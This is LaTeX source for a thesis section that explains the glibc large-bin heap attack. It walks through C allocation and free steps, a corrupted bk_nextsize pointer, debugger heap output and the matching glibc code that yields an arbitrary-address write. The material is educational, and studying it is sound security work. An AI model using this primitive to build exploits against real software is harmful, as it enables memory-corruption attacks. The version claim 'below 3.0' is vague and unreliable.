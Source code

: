 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the biggest chunk, however, the freed chunk is not in the \lb{} yet. As we discussed, the freed chunk was added to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
  Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
  Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}

The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just \lb{} chunk chunks use this pointer, they point to the next biggest chunk in the link list. 
\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
The last step is to allocate a bigger chunk , so , p2 move to a larger chunk . When p2 move to large chunk , the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:
\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
\end{lstlisting}
This attack works on \libc{} below 3.0 .
\chapter{Conclusion}



\end{document}
